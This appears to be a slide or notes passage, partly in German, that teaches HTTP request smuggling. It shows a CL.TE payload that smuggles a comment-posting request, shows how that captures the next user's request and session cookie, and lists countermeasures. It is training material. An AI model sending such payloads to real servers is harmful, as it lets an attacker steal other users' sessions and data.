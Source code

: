 ```
Transfer-Encoding
: chunked
```

## But what to do with that

## But what to do with that

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

## Results in

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

## Gegenmassnahmen

* Jeden Backend-Request über eine eigene Connection schicken
* Backend und Frontend müssen den gleichen Längen-Identifier verwenden
* HTTP/2 verwenden

# PHP Type Juggling
